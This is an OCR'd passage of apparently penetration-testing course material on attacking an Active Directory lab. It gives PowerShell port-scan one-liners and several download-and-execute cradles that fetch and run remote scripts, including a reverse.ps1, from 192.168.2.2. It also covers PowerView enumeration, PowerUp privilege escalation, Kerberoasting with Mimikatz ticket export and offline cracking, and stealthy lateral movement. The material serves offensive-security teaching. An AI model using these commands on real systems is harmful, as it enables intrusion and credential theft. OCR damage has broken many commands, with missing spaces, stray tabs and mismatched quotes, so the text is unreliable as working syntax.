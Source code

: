 ### 4.1  Internal Infrastructure Overview

### 4.2  Infrastructure Enumeration
 • Here, we will try to focus more on mapping the networking devices, hosts present in the Internal environment.
 • The Attackers leverage in-built tools to enumerate and map live hosts in the environment.
 • Since, the internal network mostly comprises of Active Directory environment, we will focus on Abusing the mis-configuation.s. 
 • Tools like nmap, netcator built-in utilities like PowerShell can also be used for enumeration purposes. 
 • Below is the command for scanning open TCP ports from a PowerShell Query.
 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.100",$_)) "Port $_ is open!"} 2>$null

#### 4.2.1  Internal Network Enumeration
Reference: https://www.sans.org/blog/pen-test-poster-white-board-powershell-built-in-port-scanner/
• Below command will scan IP addresses 10.1.1.1-5 and some specific common TCP ports.
 1..20 | % { $a = $_; write-host "------"; write-host "10.0.0.$a"; 22,53,80,445 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.1.1.$a",$_)) "Port $_ is open!"} 2>$null}

#### 4.2.2  Active Directory Essentials
 • In the local environment we have 3 machines setup in a domain environment.
 • One can use Windows PowerShell, Windows native executable for the enumeration and exploitation purposes.
 • In-scope IP address range : 
   − 10.10.10.2    Domain Controller 
   − 10.10.10.3    Application Server
   − 10.10.10.4    Employee System

 • Windows PowerShell
   • It is a .NET interpreter which comes installed by-default on all Windows versions.
   • One can execute binaries and scripts completely in-memory using PowerShell.
   • Through PowerShell one can administer a network and provides access to manage Active Directory environment.
   • Useful for Lateral Movement scenarios
   • PowerShell Remoting
   • Web-Based PowerShell Remoting

• Invoking a PowerShell Module
   • Scripts with extension “*.ps1”, “*.psm1”, “*.psd1” etc can be invoked in a specific PowerShell session as follows : 
     Import-Module <Module_Name.ps1>
   • However a PowerShell script can be invoked in a unique way called “dot sourcing a script” 
     . .\<Script_Name>.ps1

• PowerShell in-memory Download and Execute cradle :  
  $down = [System.NET.WebRequest]::Create("http://192.168.2.2/file.ps1") 
  $read = $down.GetResponse() 
  IEX ([System.IO.StreamReader]($read.GetResponseStream())).ReadToEnd()
  iex(iwr'http://192.168.2.2/file.ps1')
  $file=New-Object -ComObject Msxml2.XMLHTTP;$file.open('GET','http://192.168.2.2/file.ps1',$false);$file.send();iex$file.responseText

$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.2.2/reverse.ps1 ‘);
sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex$response 
iex(New-Object Net.WebClient).DownloadString('https://192.168.2.2/reverse.ps1')

### 4.3 Active Directory Phases Exploitation
 Internal Network Attack Simulation Cycle

 • Recon
   • We already have access to the internal environment.
   • Credentials of a user is found on the Web-Server, which gave us access to the Employee-Machine.
   • In-built functionalities like PowerShell and WMI can be used for situational awareness in the network.
   • Adversary always heads for the direction of placement or setup of critical asset of a company.

Domain Enumeration
• We will use PowerView
   • Get current domain : for enumeration.
     Get-NetDomain
     Get-NetDomain–Domain cyberwarfare.corp
   • Retrieve Current SID and Domain Controller 
     Get-NetDomainController–Domain cyberwarfare.corp
     Get-DomainSID

• Retrieve a list of users in the current domain : 
   Get-NetUser
   Get-NetUser–UserNameemp1

• Retrieve a list of computers in the current domain : 
   Get-NetComputer
   Get-NetComputer–FullData
   Get-NetComputer–OperatingSystem“Windows Server 2016 Standard”

• List all domain groups in the current domain : 
   Get-NetGroup
   Get-NetGroup–FullData
   Get-NetGroup–Domain cyberwarfare.corp

• Enumerate privilege domain group members and local administrators group members. 
   Get-NetGroupMember–GroupName“Domain Admins” -verbose 
   Get-NetLocalGroup–ComputerNameDC-01  -ListGroups

• ACL Enumeration, get the ACLs associated with an entity:
   Get-ObjectAcl-SamAccountName<Domain_User> –ResolveGUIDs
• Unique and interesting ACL Scanning :
   Invoke-ACLScanner–ResolveGUIDs
• Enumerate Domain Trusts : 
   Get-NetDomainTrust
   Get-NetDomainTrust–Domain cyberwarfare.corp

• Enumerate all domain in a Forest :
   Get-NetForestDomain–Verbose
   Get-NetForest -Verbose
• Find computer sessions where current user has local admin access : 
   Find-LocalAdminAccess-Verbose

#### Local Privilege Escalation
• An Adversary tries to escalate privileges from low to high (Administrator, root)
• There are various vulnerabilities that can be abused on Windows/Linux environment :
   • Abuse Elevation Control Mechanism
   • Access Token Manipulation 
   • Boot or Logon Auto-start Execution
   • Process Injection
   • Scheduled Task/Job
   • Valid Accounts

• PowerUP can be used to escalate locally in a Windows environment.
   . .\PowerUP.ps1
   Invoke-AllChecks–Verbose
   • List services which can be configured : 
     Get-ModifiableService -Verbose
   • Unquoted Service Path : 
     Get-ServiceUnquoted-Verbose

### Admin Reconnaissance
• With enough privileges on the Local machine the Adversary will try to perform where Admin users are logged-on. Technique Example : Credential Dumping
• Service accounts generally have Administrator privileges in a machine.
• Well-known attacks like Kerberoasting can be used to brute-force service account credentials.
• We need to find users where a high-privilege domain user like Domain Admin has sessions, this can be done using “Invoke-UserHunter” query.
--> Kerberoasting
• We send all the required details to DC to get a valid TGT, this TGT can be used to get a TGS (for authorization) to access any specific service.
• Upon getting the TGS (encrypted with target service account hash), one can export it and then brute-force it against a password dictionary.
• Also, Administrator generally do not focus on changing the credentials of non-machine service account, we end up getting the clear-text credentials ☺
• In-short, it is the offline brute-forcing of service account credentials.

1. Domain User Name with current time is sent to DC in encrypted form
2. DC decrypts the message & perform a check if everything is OK
3. Got TGT
4. Client Stores TGT in memory & it can be re-requested by local session manager
5. TGT enc with krbtgthash, request a TGS (TGS-REQ)
6. TGS is enc with target service NTLM hash
7. Client using the allotted TGS are authenticated as well as authorized to access DB server
8. Other optional validation requests with the DC is performed.

• Find User accounts which are used as service accounts : 
   Get-NetUser–SPN
• We request the TGS aka service ticket : 
   Request-SPNTicket
• Check ticket in-memory: 
• Export ticket using Mimikatz :
   klist
   Invoke-Mimikatz -Command '"kerberos::list /export“’
• Now, Crack the Service account password using tgsrepcrack.py
   python.exe .	gsrepcrack.py .\passwords.txt ‘.\Ticket.kirbi'

#### Lateral Movement
• The Adversary will try to move laterally in the environment in search for some critical servers/assets.
• Some of the techniques that can be used are :  
   • PowerShell Remoting
   • Windows Management Instrumentation (WMI)
   • Invoke-Mimikatz.ps1 etc
• It is advised to choose a method which is stealth and leave almost no footprints on ANY machines the Adversary is targeting.

--> PowerShell Remoting
• It used WinRM protocol and runs by-default on TCP ports 5985 (HTTP) and 5986 (HTTPS)
• It is a recommended way to manage Windows core servers.
• This comes enabled by-default from Windows Server 2012.
• Adversary uses this utility to connect to remote computers/servers and execute commands upon achieving high privileges.
• Example : Invoke-Command, New-PSSession, Enter-PSSession

• Configuration is easy “Enable-PSRemoting-SkipNetworkProfileCheck-Verbose -Force” as administrator.
• It is used to run commands and scripts on : 

